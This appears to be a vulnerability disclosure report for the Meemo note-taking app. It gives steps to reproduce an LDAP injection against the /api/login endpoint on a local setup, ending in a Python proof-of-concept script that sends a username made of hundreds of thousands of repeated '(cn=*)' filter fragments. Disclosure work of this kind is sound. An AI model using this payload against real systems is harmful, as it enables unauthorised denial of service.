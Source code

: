 ```javascript
// https://github.com/nebulade/meemo/blob/master/app.js#L55
...
router.post('/api/login', routes.login);
...
```
## Steps To Reproduce:

To test this app on a real live system, you need first to install `Cloudron` (https://cloudron.io/get.html) and then install the `Meemo` app (https://cloudron.io/store/de.nebulon.guacamoly.html). In order to install the `Cloudron` app you need first a domain. 

Instead of the above setting, I tested the app locally. 
Below steps to reproduce the vulnerability.

To simulate an LDAP server for users authentication, I used a test server provided by the same author (https://github.com/nebulade/ldapjstestserver) (you can find attached).

- install (https://docs.mongodb.com/manual/tutorial/install-mongodb-on-ubuntu/) and start MongoDB:
    - `sudo systemctl start mongod`

- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `meemo-app` module:
    -  `git clone https://github.com/nebulade/meemo.git`
    - `cd meemo`
    - `npm i`
    - `./node_modules/.bin/gulp`

- start the LDAP test server (we are in `poc/meemo/`):
    -  `node ldapjstestserver.js`

- start the `meemo` app locally (we need to setup some environment variables to enable the LDAP authentication):
    - `CLOUDRON_LDAP_BIND_DN="cn=admin,ou=users,dc=example" CLOUDRON_LDAP_BIND_PASSWORD="password" CLOUDRON_LDAP_USERS_BASE_DN="ou=users,dc=example" CLOUDRON_LDAP_URL="ldap://localhost:3002" node app.js`

Before performing the attack let's first check that everything works as expected:
- visit `http://localhost:3000/`
- enter `normal` and `test` respectively in the `username` and `password` fields and the click enter
- logout 

Reproduce the attack:
- visit `http://localhost:3000/`
- run the following `python` script (`poc.py`):

```python
import requests
import json

url = 'http://localhost:3000/api/login'

payload = "*)" + "(cn=*)"*700000 + "(cn=*"

print(f"Payload's length: {len(payload)} characters")

headers = {'Content-type': 'application/json', 'Accept': 'text/plain'}

data = {
    "username": payload,
    "password": "pass"
}

response = requests.post(url, data=json.dumps(data), headers=headers)
```